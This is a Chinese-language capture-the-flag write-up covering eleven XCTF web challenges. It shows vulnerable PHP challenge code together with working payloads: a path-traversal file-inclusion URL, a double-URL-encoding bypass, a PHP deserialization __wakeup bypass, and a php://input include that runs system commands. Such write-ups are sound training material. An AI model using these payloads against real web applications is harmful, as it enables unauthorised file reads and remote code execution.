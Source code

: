 ```yaml
---
title: "攻防世界web前11题WP"
date: 2022-01-18T11:26:31+08:00
draft: false
url: "XCTF-WEB-1"
categories: ["CTF-WEB"]
---
```


### baby_web

进去之后发现是/1.php,根据提示“初始页面”，用burpsuite截获index.php，获得flag。
知识点：网页初始页面的文件名一般为index。

### warmup

进去之后发现一个滑稽表情，用burpsuite截获数据包后发现有个source.php，打开之后发现页面源代码。
```php
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {//page必须被设置且page必须是字符串，否则将被过滤
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {//如果page在白名单内则合法
                return true;
            }

            $_page = mb_substr(//mb_substr(str,start,length)截取字符串中的一段
                $page,
                0,
                mb_strpos($page . '?', '?')//查找'?'在page中首次出现的位置
            );//将page问号之后的内容截掉
            if (in_array($_page, $whitelist)) {//若此时的page在白名单内则合法
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])//_REQUEST是post和get的集合
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])//要求file也满足上面的要求
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
```
根据源代码得到提示，找到文件hint.php，得知flag在ffffllllaaaagggg这个文件里。再次进行代码审计,发现底下有个文件包包含，构造payload为：
http://111.200.241.244:60683/source.php?file=source.php?./../../../../ffffllllaaaagggg
就可以得到flag。

### Training-WWW-Robots

签到题，科普了一波robots.txt。

### PHP2

根据题目提示访问/index.phps获取提示信息：
```php
<?php
if("admin"===$_GET[id]) {//如果id全等于admin则会被过滤
  echo("<p>not allowed!</p>");
  exit();
}

$_GET[id] = urldecode($_GET[id]);//id进行一次url解码
if($_GET[id] == "admin")
{
  echo "<p>Access granted!</p>";
  echo "<p>Key: xxxxxxx </p>";
}
?>

Can you anthenticate to this website?
```
构造id=%2561dmin使之在被两次urldecode后等于admin就可获得flag。

### Web_php_unserialize

又是一道反序列化的题。打开网页发现源代码。
```php
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { //构造函数，赋值给file
        $this->file = $file; 
    }
    function __destruct() { //析构函数
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
if (isset($_GET['var'])) { 
    $var = base64_decode($_GET['var']); 
    if (preg_match('/[oc]:\d+:/i', $var)) { // /i的意思是不区分大小写
        die('stop hacking!'); 
    } else {
        @unserialize($var); 
    } 
} else { 
    highlight_file("index.php"); 
} 
?>
```
当Demo被反序列化时，wakeup函数中的内容会被执行，通过构造类中成员属性数目大于实际数目绕过。
`var=O:4:"Demo":2:{s:10:"\0Demo\0file";s:8:"fl4g.php";}`
下面是对var变量的检查，用到了正则表达式，如果var符合开头`o:数字`的形式就会被过滤，这里采用`+`号过滤。
构造`var=O:+4:"Demo":2:{s:10:"\0Demo\0file";s:8:"fl4g.php";}`，再进行一次base64加密，构造payload传参即可得到flag。
注意Demofile中的\0，最好直接复制序列化之后的结果来改，不然特殊字符很容易出问题。

### php_rce

打开以后发现是个Thinkphp V5的介绍页面，说明要利用Thinkphp框架的漏洞。查阅kali linux自带的漏洞数据库即可获得hack的方法。

使用`searchsploit thinkphp``命令即可查询到可利用的漏洞。

然后远程代码执行，找到flag文件。

### Web_php_include

看题目应该是个文件包含。打开页面出一段代码。
```php
<?php
show_source(__FILE__);
echo $_GET['hello'];
$page=$_GET['page'];
while (strstr($page, "php://")) {
    $page=str_replace("php://", "", $page);
}
include($page);
?>
```
阅读代码发现，题目简单过滤了"php://"利用php大小写不敏感的特性，构造大写的pHp://绕过过滤。
使用php://input协议，远程执行代码：
```php
<?php
system("ls");
?>
```
和
```php
<?php
system("cat fl4gisisish3r3.php");
?>
```
获取flag。

### ics-06

签到。Burpsuite暴力跑字典破解。。。

### NewsCenter

注意到网站使用的Sql数据库，使用Sqlmap工具hack。
[sqlmap使用教程](https://www.vuln.cn/1992)

### NaNNaNNaNNaN-Batman

下载到一段代码：
```javascript
function $(){
    var
    e=document.getElementById("c").value;
    if(e.length==16)
        if(e.match(/^be0f23/)!=null)
            if(e.match(/233ac/)!=null)
                if(e.match(/e98aa$/)!=null){
                    if(e.match(/c7be9/)!=null){
                        var t=["fl","s_a","i","e}"];
                        var n=["a","_h0l","n"];
                        var r=["g{","e","_0"];
                        var i=["it'","_","n"];
                        var s=[t,n,r,i];
                        for(var o=0;o<13;++o){
                            document.write(s[o%4][0]);s[o%4].splice(0,1)
                        }
                    }
                }
}
```
js正则表达式审计，但其实可以直接把前面判断的代码删掉，再跑一下生成flag的那段获取flag。

### unserialize3

又一道反序列化，打开页面得到代码：
```php
class xctf{
public $flag = '111';
public function __wakeup(){
exit('bad requests');
}
?code=
```
这题和上道反序列化题相比完全是两个级别，直接将给的代码反序列化后，绕过wake_up即可得到flag。